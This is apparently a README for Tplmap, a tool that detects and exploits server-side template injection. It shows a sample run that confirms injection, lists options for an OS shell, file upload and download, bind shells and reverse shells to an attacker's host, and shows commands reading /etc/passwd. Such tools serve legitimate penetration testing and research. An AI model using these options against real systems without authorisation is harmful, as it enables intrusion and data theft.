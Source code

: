 Tplmap
======

Tplmap (short for _Template Mapper_) is a tool that automate the process of detecting and exploiting Server-Side Template Injection vulnerabilities (SSTI). This assists SSTI exploitation to compromise the application and achieve remote command execution on the operating system. 

The tool can be used by security researches and penetration testers, to detect and exploit vulnerabilities and study the template injection flaws.

Tplmap template engines support an capabilities can be extended via plugins. Several sandbox break-out methodologies came from James Kett's research [Server-Side Template Injection: RCE For The Modern Web App][1] and other original researches.

As advanced features Tplmap detects and achieves command execution in case of blind injections and is able to inject in code context.

Example
--------

```
$ ./tplmap.py -u 'http://www.target.com/app?id=*' 
[+] Tplmap 0.1
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Found placeholder in GET parameter 'inj'
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Freemarker plugin is testing blind injection
[+] Velocity plugin is testing rendering with tag '#set($c=*)\n${c}\n'
[+] Jade plugin is testing rendering with tag '\n= *\n'
[+] Jade plugin has confirmed injection with tag '\n= *\n'
[+] Tplmap identified the following injection point:

  Engine: Jade
  Injection: \n= *\n
  Context: text
  OS: darwin
  Technique: render
  Capabilities:
  
   Code evaluation: yes, javascript code
   Shell command execution: yes
   File write: yes
   File read: yes
   Bind and reverse shell: yes

[+] Rerun tplmap providing one of the following options:

   --os-shell or --os-cmd to execute shell commands via the injection
   --upload LOCAL REMOTE to upload files to the server
   --download REMOTE LOCAL to download remote files
   --bind-shell PORT to bind a shell on a port and connect to it
   --reverse-shell HOST PORT to run a shell back to the attacker's HOST PORT
        
$ ./tplmap.py -u 'http://www.target.com/app?id=*' --os-shell
[+] Run commands on the operating system.

linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $

```

Supported template engines
--------------------------

| Template engine    | Detection          | Command execution | Code evaluation | File read | File write |
|--------------------|--------------------|-------------------|-----------------|-----------|------------|
| Mako               |  render+blind      | yes               | python          | yes       | yes        |
| Jinja2             |  render+blind      | yes               | python          | yes       | yes        |
| Nunjucks           |  render+blind      | yes               | javascript      | yes       | yes        |
| Jade               |  render+blind      | yes               | javascript      | yes       | yes        |
| Smarty (unsecured) |  render+blind      | yes               | PHP             | yes       | yes        |
| Freemarker         |  render+blind      | yes               | no              | yes       | yes        |
| Velocity           |  render            | no                | no              | no        | no         |
| Twig               |  render            | no                | no              | no        | no         |
| Smarty (secured)   |  render            | no                | no              | no        | no         |


[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
